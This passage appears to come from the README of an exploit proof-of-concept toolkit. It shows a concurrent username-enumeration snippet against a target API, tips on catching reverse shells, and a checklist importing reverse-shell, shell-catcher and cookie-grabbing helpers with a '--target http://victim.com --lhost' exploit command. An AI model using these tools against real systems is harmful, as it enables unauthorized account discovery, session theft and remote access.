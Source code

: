 ```python
)

# Memory-efficient scanning (for large wordlists)
with open("wordlist.txt") as f:
    wordlist = [line.strip() for line in f]

# Only get successful results, drop response bodies
valid_users = batch_request_sync(
    client.build_request("GET", "http://target/api/user"),
    payloads=generate_param_payloads("username", wordlist),
    validate=lambda r: r.status_code == 200,
    concurrency=100,
    filter_matched=True,  # Only return valid usernames
    drop_response=True    # Don't store response bodies (saves memory)
)

# Now valid_users only contains successful payloads
for result in valid_users:
    out.success(f"Valid user: {result.payload['params']['username']}")
```

## Tips

1. **Always use colored output** - Makes exploits much easier to debug
2. **Use shell_catcher** instead of netcat - Get PTY upgrade automatically
3. **Generate shells on-demand** - Don't hardcode LHOST/LPORT
4. **Keep it simple** - These utils prioritize speed over perfection
5. **Use batch_request for fuzzing** - Test multiple payloads efficiently with concurrency control

## Quick Start Checklist

```bash
# 1. Start your server (in separate terminal)
python servers/server.py

# 2. Run your exploit
python exploit.py --target http://victim.com --lhost YOUR-IP

# 3. Common imports for any POC
from utils.output import out
from utils.shell_catcher import auto_shell
from utils.reverse_shells import python_oneliner
from utils.server_hooks import get_cookie
from utils.cookie import parse_cookie_string
```

Remember: This is for **quick and dirty POCs**. Make it work, make it fast, keep it simple!